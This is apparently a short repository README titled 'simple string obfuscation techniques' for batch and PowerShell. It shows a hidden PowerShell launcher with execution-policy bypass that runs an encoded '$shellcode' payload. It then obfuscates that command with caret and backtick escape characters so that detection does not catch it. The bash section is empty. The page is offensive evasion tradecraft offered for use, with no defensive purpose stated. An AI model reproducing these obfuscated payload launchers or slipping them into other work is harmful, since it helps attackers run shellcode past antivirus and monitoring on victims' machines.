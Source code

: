 <br />

# SIMPLE STRING OBFUSCATION TECNICS

<br /><br />

### batch

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **batch escape caracter** ^<br />

- string obfuscated<br />
`cm^d.e^xe /c po^w^er^shel^l.ex^e -n^op -w^i^nd h^idd^en -Ex^e^c B^yp^a^ss -no^n^i -en^c $shellcode`<br />

---

<br />

### bash


---

<br />

### powershell

- string command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />
The above string can be obfuscated using the **powershell escape caracter** `<br />

- string obfuscated<br />
cm\`d.e\`xe /c po\`w\`er\`shel\`l.ex\`e -n\`op -w\`i\`nd h\`idd\`en -Ex\`e\`c B\`yp\`a\`ss -no\`n\`i -en\`c $shellcode<br />

---

<br />
